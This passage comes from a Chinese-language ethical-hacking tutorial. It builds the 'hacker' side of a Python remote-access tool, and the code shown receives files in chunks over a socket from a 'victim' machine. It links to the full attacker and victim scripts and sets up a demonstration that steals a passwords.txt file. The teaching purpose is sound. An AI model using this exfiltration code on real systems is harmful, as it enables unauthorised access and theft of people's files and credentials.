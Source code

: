 接下来，我们需要在黑客程序中接收这些数据。为此，进入黑客程序并检查接收到的`exists`变量的值。如果受害者的回复是`yes`，这意味着文件在受害者的机器上存在，我们可以开始下载文件。请注意，我们刚刚开发了一个发送数据的程序，现在我们将在这里接收相同的数据。接收到的数据将是字节形式，我们将把这些字节写入到黑客的 PC 上，以生成与受害者 PC 上相同的文件。让我们看看以下代码：

if exist.decode() == "yes":

print("文件已存在")

# 在此接收文件

file_name = command.strip("download ")

with open(file_name, "wb") as file:

print("正在下载文件")

while True:

chunk = hacker_socket.recv(CHUNK_SIZE)

file.write(chunk)

if chunk.endswith(eof_identifier.encode()):

chunk = chunk[:-len(eof_identifier)]

file.write(chunk)

break

print("下载成功，", file_name)

如果文件存在，我们将创建一个与`file_name`同名的新文件。请注意，我们以`wb`（写入二进制模式）创建文件，这样我们就可以下载任何类型的文件。创建文件后，我们需要写入从受害者处接收到的文件内容。我们定义`CHUNK_SIZE`变量的大小与受害者在发送数据时定义的大小相同，然后我们开始连续接收数据并写入磁盘，直到接收到文件末尾的标识符。你需要定义与受害者相同的`eof_identifier`变量，否则程序将无法正常工作。一旦达到标识符，我们就去除标识符，写入剩余的字节到磁盘，并退出循环。最后，我们可以打印出一条语句，指示我们已接收到所有数据。现在我们的程序完成了，使用这个程序，我们可以从受害者下载数据到黑客机器。

黑客的完整代码如下：

[`github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example10-hacker-advanced/hacker.py`](https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example10-hacker-advanced/hacker.py)

)

同样，发送文件给黑客的受害者完整代码如下：

[`github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example11-advanced-victim/advanced-victim.py`](https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example11-advanced-victim/advanced-victim.py)

)

现在，让我们尝试运行这个程序。首先运行黑客程序，然后是受害者程序。

在受害者的 PC 上创建一个名为`passwords.txt`的文件，并写入一些随机密码：

![图 7.2 – 受害者 PC 上的密码文件](img/B14788_07_02.jpg)
